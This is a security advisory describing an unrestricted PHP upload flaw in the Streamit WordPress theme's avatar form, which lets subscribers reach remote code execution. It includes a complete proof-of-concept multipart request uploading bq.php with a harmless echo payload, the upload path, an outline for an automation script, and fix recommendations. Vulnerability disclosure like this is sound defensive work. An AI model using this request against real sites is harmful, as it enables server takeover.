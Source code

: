 # 🚀 Streamit WordPress Theme - Subscriber File Upload to RCE  

📌 **Product Information**    
**Platform**: WordPress (Theme: Streamit)  
**Affected Feature**: Profile Avatar Upload  
**Tested Vulnerability**: Arbitrary PHP File Upload (Subscriber+)  
**CVE**: Not Assigned  
**Severity**: High (Authenticated File Upload => Remote Code Execution)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: June 12, 2025  
**Researcher**: Grac3  
**Link Product**: https://themeforest.net/item/streamit-video-streaming-wordpress-theme/29772881  

---

⚠️ **Summary of the Vulnerability**  
The Streamit WordPress Theme allows logged-in users with *subscriber* role to change their avatar via the following endpoint:

example :
```
/membership-account/your-profile/?view=change-password
```

However, the form handling this request does not properly validate uploaded file types when the `update_avatar` action is set. By abusing this, attackers can upload PHP files disguised as images and trigger Remote Code Execution.

## 🧪 Proof of Concept (PoC)  
**Sample POST Request:**

```
POST /membership-account/your-profile/?view=change-password HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKW4qPnvjzFXSGYQM
Cookie: [VALID SUBSCRIBER COOKIE]

------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="user_avatar"; filename="bq.php"
Content-Type: image/jpeg

ÿØÿà
<?php echo 'HELLO WORLD'; ?>
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="update_avatar"

Change
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wpnonce"

[VALID_NONCE]
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wp_http_referer"

/membership-account/your-profile/?view=change-password
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="action"

update-avatar
------WebKitFormBoundaryKW4qPnvjzFXSGYQM--
```

📁 **File Upload Behavior**
- The uploaded file must include the parameter `update_avatar` to be processed.
- Upon success, the file is saved in:

```
/wp-content/uploads/[year]/[month]/bq.php
```

✅ **Indicators of Success:**
- Status HTTP/2 200 OK
- Visiting `/wp-content/uploads/2025/06/bq.php` will execute the payload and print `HELLO WORLD`.

## 🔍 Where’s the Flaw?
- The file type is only superficially validated by MIME type.
- No server-side checks to restrict executable file types (like `.php`).
- Action `update_avatar` allows upload without checking user capabilities beyond basic authentication.

## 🔐 Recommendation
- Enforce strict MIME and extension checks server-side for file uploads.
- Restrict `update-avatar` functionality to roles above Subscriber.
- Disallow `.php`, `.phtml`, and similar dangerous file types explicitly.
- Monitor and log all uploads, especially in `/wp-content/uploads`.

## 📁 Script Features (Optional)
You may create a Python script to:
- Authenticate as a Subscriber.
- Upload a PHP payload via avatar change.
- Automatically retrieve uploaded path.
- Trigger uploaded file and verify execution.

## ⚠️ Disclaimer  
This information is provided for **educational and authorized testing** purposes only.  
**Do not** use it on systems without proper authorization.  
Unauthorized exploitation is illegal and unethical.
